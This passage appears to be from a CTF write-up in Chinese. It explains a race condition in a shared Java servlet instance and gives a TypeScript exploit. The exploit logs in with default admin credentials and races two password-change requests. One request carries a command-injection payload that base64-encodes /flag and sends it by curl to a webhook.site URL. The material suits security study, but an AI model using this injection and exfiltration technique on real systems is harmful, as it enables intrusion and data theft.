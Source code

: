問題在於，Java 只會建立一個 Servlet Instance，不同 Thread 跟不同 Request 之間會共用這個 Instance 的 Member variable，所以只要在一個 Request 通過檢查後的 100 ms 之內覆蓋掉 `password` 就能達成 RCE。

```typescript
const target = 'http://14f6aea68e334512b2083d4896b235200.board-board.ctftime.uk:36363'
const webhook = 'https://webhook.site/5fb0e221-271b-400a-af90-874bbfb30e26'
const verbose = true

const attacks: Promise<Response>[] = []

// Get session
const login = await fetch(`${target}/admin/login.php`, {
  headers: {
    'content-type': 'application/x-www-form-urlencoded',
  },
  body: 'username=admin&password=admin',
  method: 'POST',
  verbose,
})
const cookie = login.headers.get('set-cookie')?.split(';')[0] || ''

// "Good" Password
attacks.push(
  fetch(`${target}/admin/ChangePassword`, {
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
      cookie,
    },
    body: `oldPassword=a&newPassword=abc`,
    method: 'POST',
    redirect: 'manual',
    verbose,
  })
)

// Evil Password
attacks.push(
  fetch(`${target}/admin/ChangePassword`, {
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
      cookie,
    },
    body: `oldPassword=a&newPassword=';curl ${webhook}?flag=$(cat /flag | base64); echo 'hi`,
    method: 'POST',
    redirect: 'manual',
    verbose,
  })
)

await Promise.all(attacks)
```
